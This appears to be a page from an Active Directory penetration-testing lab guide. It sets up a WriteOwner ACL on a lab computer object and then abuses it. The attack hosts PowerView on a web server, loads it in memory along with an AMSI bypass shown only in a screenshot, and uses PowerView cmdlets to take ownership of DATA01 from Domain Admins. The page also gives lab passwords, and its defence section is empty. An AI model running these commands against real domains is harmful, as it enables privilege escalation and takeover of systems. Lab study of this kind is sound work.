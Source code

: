 # Write Owner

## Configuring

1. Login to `DC03` with the Administrator user and the password `Welcome01!`.
2. Open the "Active Directory Users and Computers" administration tool.

![](<../../../.gitbook/assets/image (67) (1) (1) (1) (1) (1).png>)

3\. Click on "View" and enable "Advanced Features

![](<../../../.gitbook/assets/image (48) (1) (1).png>)

4\. Click on the "Computers" directory and right click on the "DATA01" computer and select "Properties". Then select "Security" to see the ACL's.

5\. Click on "Add" and type `sa_sql`.

![](<../../../.gitbook/assets/image (11) (1) (1) (1).png>)

6\. Select the "sa\_sql" user and click "Advanced". Then select the "sa\_sql" once again and click on "Edit". Then select "Modify Owner".

![](<../../../.gitbook/assets/image (15) (1) (1).png>)

7\. We can quickly run BloodHound to check if the correct permissions are applied to the `sa_sql` user:

![](<../../../.gitbook/assets/image (1) (1).png>)

![](<../../../.gitbook/assets/image (61) (1) (1).png>)

It is configured correctly!

## Attacking

### How it works

If a domain object has the WriteOwner ACL, the object can change the owner of the object. In this case the user `SA_SQL` can change the owner of the computerobject `DATA01`. Once you are "Owner" of a object, you can change the DACL of the object.

### Tools

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### Executing the attack

1. Download PowerView on the kali machine and host it on a webserver:

```
wget https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
python3 -m http.server 8090
```

2\. Login to `WS01` as Richard with the password `Sample123`.

3\. Start PowerShell and download and execute an amsi and PowerView in memory:

![](<../../../.gitbook/assets/image (70) (1).png>)

4\. In the page DACL-Abuses I showed you how to check for ACL's using BloodHound. We will abuse the "Write Owner" ACL `sa_sql` has on `DATA01`.

![](<../../../.gitbook/assets/image (53) (1).png>)

5\. With PowerView we can query the current owner of the computerobject `DATA01`. Since we are queering data from another domain, we will have to provide a username and password for that domain. Create a credential object using the `get-credential` cmdlet:

```
$creds = Get-Credential
```

Then we can use PowerView to query the Domaincontroller from `secure.local` for the domain-object and retrieve the samaccountname and Owner attribute. We will receive a SID which we need to resolve aswell;

```
Get-DomainObject -Identity data01 -SecurityMasks Owner -Domain secure.local -Credential $creds -Server 10.0.0.100 | select samaccountname, Owner
Get-DomainObject -Identity S-1-5-21-1498997062-1091976085-892328878-512 -Domain secure.local -Credential $creds -Server 10.0.0.100
```

![](<../../../.gitbook/assets/image (32) (1).png>)

The current owner of the computerobject `DATA01` is the group `Domain Admins`.

6\. With PowerView we can change the owner of the object using the `Set-DomainObjectOwner` cmdlet.

```
Set-DomainObjectOwner -Domain secure.local -Credential $creds -Server 10.0.0.100 -Identity DATA01 -OwnerIdentity sa_sql -Verbose
```

![](<../../../.gitbook/assets/image (69) (1).png>)

7\. We didn't receive any errors, to lets use the same queries again to query the owner of the computerobject DATA01;

![](<../../../.gitbook/assets/image (21) (1).png>)

8\. We successfully changed the owner of the computerobject from `Domain Admins` to `sa_ql`.

## Defending

### Recommendations



### Detection



## References

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#writeowner" %}
